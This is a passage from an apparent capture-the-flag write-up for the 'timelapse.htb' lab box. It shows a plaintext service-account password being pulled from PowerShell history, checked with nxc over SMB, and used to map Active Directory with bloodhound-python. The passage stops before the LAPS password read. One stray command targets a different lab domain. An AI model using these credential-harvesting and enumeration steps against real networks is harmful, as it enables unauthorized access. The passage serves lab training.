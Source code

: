 We can try and get powershell history from this:

```bash
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

It seems we got the password for user svc_deploy. Let’s check that with nxc:

```bash
nxc smb 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --shares

SMB         10.10.11.152    445    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
SMB         10.10.11.152    445    DC01             [*] Enumerated shares
SMB         10.10.11.152    445    DC01             Share           Permissions     Remark
SMB         10.10.11.152    445    DC01             -----           -----------     ------
SMB         10.10.11.152    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.152    445    DC01             C$                              Default share
SMB         10.10.11.152    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.152    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.152    445    DC01             Shares          READ            
SMB         10.10.11.152    445    DC01             SYSVOL          READ            Logon server share 
```

Since we have a valid credential now, let’s map out the AD with bloodhound:

```bash
mkdir bh_out
bloodhound-python -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -ns 10.10.11.152 -d timelapse.htb -c all

bloodhound-python -u j.fleischman -p 'J0elTHEM4n1990!' -ns 10.10.11.69 -d fluffy.htb -c all

sudo neo4j start
bloodhound
```

Checking our privileges, we see that we can read LAPS password:

![image.png]({{ site.baseurl }}/assets/timelapse/image%202.png)

The `Local Administrator Password Solution (LAPS)` provides management of local account passwords on domain-joined computers. Let’s read LAPS:
